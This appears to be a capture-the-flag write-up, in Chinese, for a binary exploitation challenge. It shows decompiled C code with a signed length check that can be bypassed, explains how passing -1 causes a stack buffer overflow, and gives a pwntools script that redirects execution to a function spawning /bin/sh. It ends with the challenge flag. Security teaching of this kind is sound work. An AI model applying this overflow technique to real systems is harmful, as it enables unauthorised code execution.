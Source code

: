 ```c=
  {
    puts(&byte_402AE8);
    exit(1);
  }
  printf(&byte_402B20);
  int8 = read_int8();
  printf(&byte_402B41);
  read(0, buf, int8);
  return 0;
}

int Welcome_to_the_world_of_Ave_Mujica()
{
  puts(&s);
  puts(&byte_402990);
  puts(&byte_4029B4);
  puts(&byte_4029C3);
  puts(&byte_4029D2);
  puts(&byte_4029E1);
  puts(&byte_4029FC);
  puts(&byte_402A15);
  return execve("/bin/sh", 0, 0);
}

__int64 read_int8()
{
  char buf[4]; // [rsp+8h] [rbp-8h] BYREF
  int v2; // [rsp+Ch] [rbp-4h]

  read(0, buf, 4u);
  v2 = atoi(buf);
  if ( v2 > 127 )
  {
    puts(&byte_402A38);
    exit(1);
  }
  return (unsigned int)v2;
}
```
前面`read_int8()`輸入-1，讓他變255，這樣就可以讓輸入長度大於buf大小造成buffer overflow

padding長度就算buf的位置([rbp-A0h])再加上saved rbp

return address算`Welcome_to_the_world_of_Ave_Mujica`的address再跳過endbr64

![image](https://hackmd.io/_uploads/BkMlmotMel.png)

exploit:
```python=
from pwn import *
r = remote('chals1.ais3.org', 60179)
r.sendlineafter(b'?',b'yes')
r.sendlineafter(b':',b'-1')
r.sendline(b"a"*0xa8 + p64(0x40125a))
r.interactive()
```

> Flag: AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._b69760dea2dd3acca3b233b295dc7892}